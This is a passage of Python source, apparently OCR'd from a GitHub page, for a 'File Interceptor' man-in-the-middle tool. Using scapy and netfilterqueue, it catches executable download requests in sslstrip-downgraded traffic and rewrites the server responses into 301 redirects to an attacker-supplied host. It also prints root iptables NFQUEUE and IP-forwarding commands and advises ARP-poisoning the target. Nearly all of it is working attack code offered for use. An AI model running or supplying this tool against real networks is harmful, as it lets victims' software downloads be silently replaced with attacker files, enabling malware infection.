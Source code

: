 ```python
    del packet[scapy.IP].chksum
    return packet



def process_packet(packet):
    # Cloning and converting to scapy packet
    scapy_packet = scapy.IP(packet.get_payload())
    # Filter for HTTP layer
    if scapy_packet.haslayer(scapy.Raw):
    # using sslstrip
        if scapy_packet[scapy.TCP].dport == 10000:
            #print("[+] HTTP Request found")
            # Check for download exe's
            if options.type in scapy_packet[scapy.Raw].load:
                print("[+] An exe request has been found. Trying to Intercept.\n")
                ack_list.append(scapy_packet[scapy.TCP].ack)
            #print(scapy_packet.show())
        # using sslstrip
        elif scapy_packet[scapy.TCP].sport == 10000:
            #print("[+] HTTP Response found")
            # Checking for redundant exe
            if scapy_packet[scapy.TCP].seq in ack_list and options.host.split("//")[1] not in scapy_packet[scapy.Raw].load :
                ack_list.remove(scapy_packet[scapy.TCP].seq)
                print("[+] Replacing file\n\n")
                # Remove any clutter added to packet using \n\n
                modified_packet = set_load(scapy_packet, "HTTP/1.1 301 Moved Permanently\r\nLocation: " + options.host + "\n\n")
                print("[+] Request succesfully redirected to target: " + options.host)
                # Convert scapy packet to str and payload
                packet.set_payload(str(modified_packet))

    packet.accept()

print("""
    _______ __        ____      __                            __            
   / ____(_) /__     /  _/___  / /____  _____________  ____  / /_____  _____
  / /_  / / / _ \    / // __ \/ __/ _ \/ ___/ ___/ _ \/ __ \/ __/ __ \/ ___/
 / __/ / / /  __/  _/ // / / / /_/  __/ /  / /__/  __/ /_/ / /_/ /_/ / /    
/_/   /_/_/\___/  /___/_/ /_/\__/\___/_/   \___/\___/ .___/\__/\____/_/     
                                                   /_/                      
    """)

try:
    options = get_arguments()
    print("[-] Note: To redirect a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
    print("\n\n******************************************************************************************")
    print("""
    [!] Run the following commands as root before using this program.
    
    1. iptables -I OUTPUT -j NFQUEUE --queue-num 0
    2. iptables -I INPUT -j NFQUEUE --queue-num 0
    3. echo 1 > /proc/sys/net/ipv4/ip_forward
    
    """)
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(0, process_packet)
    queue.run()
except KeyboardInterrupt:
```